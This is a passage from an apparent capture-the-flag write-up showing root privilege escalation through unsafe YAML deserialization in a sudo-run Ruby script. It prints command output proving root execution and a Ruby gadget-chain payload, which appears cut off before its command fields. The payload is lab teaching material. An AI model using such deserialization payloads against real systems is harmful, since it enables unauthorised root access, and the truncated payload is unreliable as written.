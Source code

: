 ```yml
         method_id: :resolve
```

From the output, we can see that the id command was successfully executed:
```
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

We can now weaponize this exploit to gain a shell with root privileges:
```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
```